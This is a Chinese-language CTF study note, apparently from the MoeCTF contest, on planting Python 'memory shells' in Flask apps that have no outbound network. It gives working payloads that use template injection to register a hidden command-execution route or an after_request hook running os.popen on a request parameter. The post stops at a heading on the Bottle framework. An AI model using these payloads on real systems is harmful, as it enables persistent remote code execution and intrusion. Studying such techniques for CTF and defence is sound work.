


无回显首先想到的就是反弹shell，但是如果题目不出网呢？

我们可以打python内存马。主要是这次Moectf的第二十二章(这还是新生赛嘛。。。)下面总结一下这次学到的吧。

# 基本原理

python内存马的基本原理就是我们自定义一个路由，路由里面执行了我们自定义的函数，可以通过访问该路由实现rce。

# add_url_rule

一般来说用add_url_rule添加路由

[flask不出网回显](https://longlone.top/%E5%AE%89%E5%85%A8/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/flask%E4%B8%8D%E5%87%BA%E7%BD%91%E5%9B%9E%E6%98%BE%E6%96%B9%E5%BC%8F/)

payload：

```Python
sys.modules['__main__'].__dict__['app'].add_url_rule('/shell','shell',lambda :__import__('os').popen('dir').read())
```

## 问题及解决

这个方法在高版本的flask中是不能直接用来添加路由的，原因是这个check方法，在老版本中只有在debug模式才会触发这个check，而在新版本中这个chec被弄得到处都是，只要我们的`self.got_first_request` 为true，就会触发下面的异常。感兴趣的话可以跟进看一下，他在其他方法中被强制赋值为Ture了





https://research.qianxin.com/archives/2329文章介绍了为什么不能用和怎么解决，但是还是可以有别的方法，直接给`self.got_first_request`赋值为False。

payload：

```python
{{url_for.__globals__['__builtins__']['exec'](
"app._got_first_request=False;from flask import request;"
"app.add_url_rule('/s','s',lambda:__import__('os').popen(request.args.get('cmd')).read());"
"app._got_first_request=True;",
{'app':url_for.__globals__['current_app']}
)}}&password=aaa
```

# **after_request** **和** **before_request**

[Flask 使用 after_request 和 before_request 处理特定请求的方法](https://geek-docs.com/flask/flask-questions/69_flask_python_flask_after_request_and_before_request_for_a_specific_set_of_request.html)

简单说就是在处理请求之前或之后执行一些操作

```python
?name={{url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}
```


  

https://www.cnblogs.com/gxngxngxn/p/18181936

# 老版本和新版本flask

老版本中可以直接使用`app.add_url_rule`，可以通过把ture改掉，或者调用底层函数手动`app.add_url_rule`

新版会使用after_request 和 before_request的底层函数，设置请求前要做的动作

# bottle框架内存马
